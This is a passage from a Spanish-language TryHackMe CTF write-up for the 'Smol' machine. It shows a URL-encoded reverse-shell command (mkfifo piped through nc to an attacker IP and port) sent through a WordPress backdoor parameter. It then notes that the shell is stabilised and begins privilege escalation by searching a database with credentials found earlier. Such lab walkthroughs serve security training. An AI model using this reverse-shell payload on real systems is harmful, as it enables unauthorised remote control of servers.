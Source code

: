 ```plaintext
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.23.66.202%204444%20%3E%2Ftmp%2Ff
```
Finalmente obetenmos la shell en el listener.

![alt text](/assets/img/writeups/tryhackme/smol/image-6.png)

La estabilizamos.

![alt text](/assets/img/writeups/tryhackme/smol/image-7.png)

## Escalando privilegios

Como ya teníamos las credenciales de la base de datos podemos ver el contenido en busca de algunas credenciales que nos puedan servir.

![alt text](/assets/img/writeups/tryhackme/smol/image-8.png)
